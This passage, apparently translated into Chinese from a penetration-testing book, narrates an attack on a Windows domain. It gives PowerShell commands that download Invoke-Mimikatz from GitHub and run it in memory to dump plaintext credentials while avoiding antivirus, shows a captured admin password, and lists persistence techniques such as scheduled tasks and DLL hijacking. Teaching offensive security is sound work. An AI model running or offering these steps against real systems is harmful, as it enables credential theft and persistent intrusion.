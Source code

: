 *他发现，用户登录后，其密码存储在内存中的本地安全授权子系统服务（LSASS）进程中。Mimikatz可以在Windows中使用非法的函数解密这些密码并以明文显示。*

*我建议你去看看Gentilkiwi关于缺陷细节的不同说法。(参看https://www.youtube.com/watch?v=-IMrNGPZTl0)*

*令人惊奇的是，即使在这么多年之后，它仍然有效。Mimikatz提供了如此多的选项，以至于它已经有效地成为了黑客攻击/渗透测试Windows环境时的重要工具。稍后我们将讨论它的一些功能。*

你可能想知道我们这里是不是太冒险了。这个工具似乎广为人知。当然，防病毒和反恶意软件产品将标记此工具的前五个字节。

但是关于防病毒产品（EDR工具倾向于采用不同的方法扫描内存中的恶意行为，但它们仍处于诞生阶段，几乎每次都可以绕过…）有一个简单的重要事实：它们只分析你在磁盘上写的文件。无论他们的技术多么卓越和创新，他们都受到这个简单事实的限制。

Mimikatz经历了这样的成功，它很快被集成到大多数Windows攻击工具中。Cymb3r（参阅https://github.com/clymb3r/PowerShell/tree/master/Invoke-Mimikatz）甚至制作了一个PowerShell包装器来调用内存中的可执行文件，在磁盘上没有留下任何痕迹。没有磁盘文件，没有防病毒警报。

使用前面得到的提升提示命令，我们启动PowerShell并准备一个web对象来下载Mimikatz。
```
PS > $browser = New-Object System.Net.WebClient
PS > $browser.Proxy.Credentials
=[System.Net.CredentialCache]::DefaultNetworkCredentials
```

Internet连接很可能通过请求域身份验证的公司代理。因此，上面命令中的第二行将dvoxon的凭据沿着web请求传递。
```
PS> mimi =
$browser.DownloadString("https://raw.githubusercontent.com/PowerShellMa
fia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1")
PS > Invoke-Expression(mimi)
```

接下来，我们下载PowerShell的Mimikatz包装器，然后使用功能强大的“Invoke Expression”命令在内存中执行它。最后一步是调用Invoke Mimikatz函数！
```
PS > Invoke-Mimikatz
```
![](chap4/chap4-32.jpg)

不出所料，证书真的拿到了！在大约100个用户中，我们找到了我们想要的：一个GBSHOP域管理帐户：achel_adm/Emma*Gryff12

## Windows El Dorado
在继续未来的冒险之前，如果由于某种原因无法访问 Citrix 服务器，我们希望"保存"当前的位置：计划外重新启动、禁用帐户等。

我们可以通过PI 0或者Daniel电脑上的Empire代理“重新开始”，但让Citrix服务器每10分钟自动打一次电话回家，确保一切正常，不是很好吗？你当然喜欢这个主意，所以我们忙吧！

解决这个问题的方法有很多：
- 设置在用户登录时执行程序的注册表项（注册表项包含Windows配置。您可以使用regedit.exe实用程序浏览它们。）-对于虚拟化服务器来说非常理想，但根据使用的注册表项，许多基本调查工具都可以检测到它。
- 设置一个计划任务，获取PowerShell脚本并每15分钟执行一次。很可靠但很原始。有效负载将很容易被任何管理人员看到。
- 某种形式的EXE或DLL劫持。我们基本上查找常规工具在启动时可能盲目加载的缺少的DLL或EXE，并将同名的假DLL或EXE放在正确的文件夹中，以使下次工具查找时执行。
